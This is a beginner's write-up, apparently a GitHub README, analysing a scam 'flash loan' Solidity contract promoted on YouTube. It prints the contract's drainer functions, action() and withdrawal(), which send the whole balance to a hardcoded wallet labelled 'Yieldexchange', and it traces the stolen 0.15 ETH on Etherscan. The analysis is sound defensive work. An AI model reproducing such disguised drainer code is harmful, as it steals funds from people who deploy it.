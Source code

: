 ## Hello World....of malicious Smart Contracts

### Welcome to my first smart contract audit(It will be rudimentary and probably provide little value but I wanted to docuemtn my first step into this world.)

I have been reading about flash loan bots / MEV bots and was interested in the arbitrage aspect and the related potentila profitability. Much like any easy money scheme there are more opportunities for malcious intent rather than genuine money making strategy. As an infosec professional, i'm already extermely skeptical of everything so naturally, I was drawn to looking into anything claiming to make money FAST. 

I stumbled upon this [Youtube Video](https://www.youtube.com/watch?v=hqsqbjPKTRI&t=2s) talking about a flash loan. linked in the video description was a [Smart Contract](https://githubdata.com/usercontent/raw-data/eth_multiplier_contract_code_raw-30848ds4) I know the VERY bare basics of programming and solidity but I wanted to dig into this with the aid of AI. 

My OSINT senses were tingling as well from loking at the comment section of the video. All comments were made by accounts that all had the same "user-XXXX" syntax. This suggests that these were most likely bot accounts created by the original poster to make this video and code seem more legitimate. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/YT.png)

Etherscan has a newer application called [Code Reader](https://etherscan.io/code-reader). I copied the code into here and utilizing the ChatGPT API asked a few questions about this contract.

* What are the functions of this contract?

"The "FlashLoanArbitrage" contract contains the following functions:

1. **Constructor**: This function initializes the contract's token symbol, token name, and loan amount when the contract is first created.

2. **receive()**: A fallback function that allows the contract to receive funds.

3. **findNewContracts**: This function is used to find newly deployed contracts on the Uniswap exchange.

4. **findContracts**: This function extracts the newest contracts from the Uniswap exchange.

5. **loadCurrentContract**: This function loads the current contract.

6. **nextContract**: This function extracts the contract from Uniswap.

7. **memcpy**: This function copies data from the source to the destination in memory.

8. **orderContractsByLiquidity**: This function orders the contracts by available liquidity.

9. **calcLiquidityInContract**: This function calculates the remaining liquidity in a contract.

10. **getMemPoolOffset**: This function returns the memory pool offset.

11. **parseMempool**: This function parses the memory pool.

12. **keccak**: This function returns the keccak-256 hash of a contract.

13. **checkLiquidity**: This function checks if a contract has enough liquidity available

14. **getMemPoolLength**: This function returns the length of the memory pool.

15. **beyond**: This function modifies a slice to contain everything from the first occurrence of needle to the end of the slice.

16. **getMemPoolHeight**: This function returns the height of the memory pool.

17. **callMempool**: This function calls and returns the data of all the contracts in the mempool.

18. **toHexDigit**: This function returns the hexadecimal representation of a digit.

19. **_callMEVAction**: This function performs a MEV action call.

20. **Yieldexchange**: This function returns the selected contract's address.

21. **action**: This function performs a frontrun action on different contract pools.

22. **withdrawal**: This function withdraws the funds back to the contract creator's address.

23. **uint2str**: This function converts an unsigned integer to a string.

24. **getMemPoolDepth**: This function returns the depth of the memory pool.

25. **mempool**: This function loads all Uniswap memory pools into memory."

### 2 odd functions that stuck out to me were action and Yieldexchange. Here are the code snippets of these functions:

``` solidity
   }

    function _callMEVAction() internal pure returns (address) {
        return parseMempool(callMempool());
    }
    function Yieldexchange() public pure returns (address) {
		return 0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05;
	}
    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function action() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }

    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }
```

* Ths function Yieldexchange defines an wallet address. This is NOT a yield exchange.
* And the function action calls Yieldexchange with the transfer function essentially transferring out the etheruem used to run this "Flashloan" to an external wallet.
* I input this address into etherscan and my hypothesis was correct. Under internal transaction on this address there was a deposit from an external source. I checked the transaction hash assocaited with the .15 ETH transfer.

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/1.jpg)

* Next I checked the external wallet address(0x8D73310409d758693a8b3234E7811319865734F4) that had transferred their funds out  this external wallet(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) unknown to them

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/2.jpg)

*As you can see this wallet receieved a deposit of ETH from Coinbase. This ETH was then used to create the contract(FlashLoan). The Contract was now funded and the owner of the ETH Address 0x8D73310409d758693a8b3234E7811319865734F4, then initiated the contract to use the .15 ETH in the "FlashLoan". After this was initiated this simply ran through tha contract code up until it hit the Yieldexchange function which defined the malicious wallet address(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) and simply transferred the funds to this account. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/3.jpg)

* In this last photo you can see all associated addressed interacting and seeing my previously stated summary of events playing out. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/4.jpg)

## Lessons learned

* ALWAYS review any contract offline. Obviously, with open source anything code will be copied and re used etc but prior to utilizing a contract and funding it it may be best to have a professional review the code or reach out to a community member on either a solidity forum 
